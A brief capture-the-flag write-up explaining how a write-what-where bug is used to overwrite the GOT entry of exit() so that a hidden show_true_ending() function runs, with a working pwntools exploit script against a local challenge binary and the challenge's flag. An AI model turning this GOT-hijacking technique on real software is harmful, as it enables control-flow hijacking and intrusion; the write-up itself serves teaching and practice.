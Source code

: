 # 🔑 Write-Up

The binary provides a trivial write-what-where so it would be a good idea to overwrite some entry in the GOT in order to get control of the program control flow.
A good candidate for the overwrite would be (as usual) the `exit()` function.
The function that gives us the flag is `show_true_ending()` but it's never called anywhere.
By overwriting the GOT entry for `exit()` we can call the required function and get the flag.

```python
from pwn import * 

context.binary = "./vuln"
e: ELF = context.binary  
p = process()
p.sendline(str(e.got["exit"]).encode("ascii"))
p.sendline(str(e.functions["show_true_ending"].address).encode("ascii"))
log.success(p.recvline_regex(rb"SPRITZ{.*}").decode("ascii"))
```

### 🚩 Flag

```plain
SPRITZ{GoT_Hijacking_iS_FUn{flag}}
```